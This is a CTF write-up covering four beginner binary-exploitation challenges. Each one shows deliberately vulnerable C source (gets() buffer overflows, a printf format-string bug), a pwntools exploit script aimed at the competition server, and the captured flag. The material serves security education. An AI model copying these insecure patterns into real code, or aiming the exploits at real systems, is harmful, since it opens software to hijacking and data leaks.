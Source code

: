 ## CyberYoddha CTF: [pwn]

#### Although this was a beginner level ctf, I was kinda satisfied to do a board wipe of the binary exploitation challenges. Since the solutions to all the challenges are pretty basic, I'll just shove them all into one writeup.

![](wipe.png)

## Overflow 1
![](overflow1_desc.png)

#### overflow1.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
  char str[] = "AAAA";
  char buf[16];

  gets(buf);
  
  if (!(str[0] == 'A' && str[1] == 'A' && str[2] == 'A' && str[3] == 'A')){
    system("/bin/sh");
  }
}
```
#### The vulnerability in the code is quite simple, we just need to provide input more than the allocated size of the buf variable in order to overwrite the contents of the str array.

```python
from pwn import *

p = remote('cyberyoddha.baycyber.net', 10001)
p.sendline(cyclic(100))
p.interactive()

#: CYCTF{st@ck_0v3rfl0ws_@r3_3z}
```

## Overflow 2
![](overflow2_desc.png)

#### overflow2.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void run_shell(){
	system("/bin/sh");
}

void vuln(){
	char buf[16];
	gets(buf);
}

int main(void) {
	vuln();  
}
```

#### Again a simple buffer overflow vulnerability and a function hijack attack. Simply overwrite the return address to the address of run_shell.

```python
from pwn import *

p = remote('cyberyoddha.baycyber.net', 10002)
exploit = cyclic(28)
exploit += p32(0x8049172)
p.sendline(exploit)
p.interactive()

#: CYCTF{0v3rfl0w!ng_v@ri@bl3$_i$_3z}
```

## Overflow 3
![](overflow3_desc.png)

#### overflow3.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
	long vuln = 0;
    char buf[16];

	gets(buf);

	if (vuln == 0xd3adb33f){
		system("/bin/sh");
	}
}
```

#### Buffer overflow to control the value of a variable. After solving this challenge, I begin to think if the flags for overflow2 and overflow3 have been unintentionally switched.

```python
from pwn import *

#:
'''p = process('./Overflow3')
gdb.attach(p.pid, 'break *main + 51')'''
p = remote('cyberyoddha.baycyber.net',10003)
exploit = cyclic(16)
exploit += p32(0xd3adb33f)
p.sendline(exploit)
p.interactive()

#: CYCTF{wh0@_y0u_jump3d_t0_th3_funct!0n}
```
## FormatS
![](formats_desc.png)

#### formats.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main ()
{
	char *input;
	char *flag = "REDACTED!";

	gets(input);
	printf(input);

	return 0;
 
}
```

#### printf is called using user supplied input leading to a format string vulnerability. Since the flag is in the stack, we can simply read values as strings from the stack (using the `%s` modifier) and take note of the offset that holds the pointer to the flag variable.

```python
from pwn import *

#:
#p = process('./formats')
p = remote('cyberyoddha.baycyber.net', 10005)
p.sendline('%7$s')
print(p.recv())

#: cyctf{3xpl0!t_th3_f0rm@t_str!ng}
```
